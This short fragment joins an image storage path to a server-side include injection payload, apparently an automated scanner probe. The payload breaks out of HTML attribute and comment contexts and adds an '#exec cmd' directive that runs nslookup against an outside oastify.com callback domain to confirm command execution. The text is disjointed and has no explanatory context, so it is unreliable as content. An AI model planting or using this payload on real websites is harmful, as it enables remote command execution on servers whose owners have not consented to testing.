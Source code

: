 "-->'-->`--><!--#exec cmd="nslookup -q=cname grbr2n8nzyam2skqpvf7lg62ctil6d265uxslk8awz.oastify.com" -->
